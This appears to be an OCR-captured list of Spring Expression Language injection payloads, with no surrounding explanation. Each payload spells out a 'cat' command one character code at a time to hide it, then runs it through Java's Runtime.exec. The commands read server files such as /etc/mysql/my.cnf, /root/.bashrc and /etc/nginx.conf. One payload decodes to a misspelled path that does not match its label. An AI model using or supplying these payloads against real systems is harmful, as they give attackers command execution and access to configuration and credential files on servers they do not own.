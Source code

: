 /etc/mysql/my.cnf

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(113)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(102))).getInputStream())} 

/etc/networks

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(115))).getInputStream())} 


/root/.bashrc 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99))).getInputStream())} 

/etc/bashrc  

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99))).getInputStream())} 

/etc/nginx.conf 

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(102))).getInputStream())} 
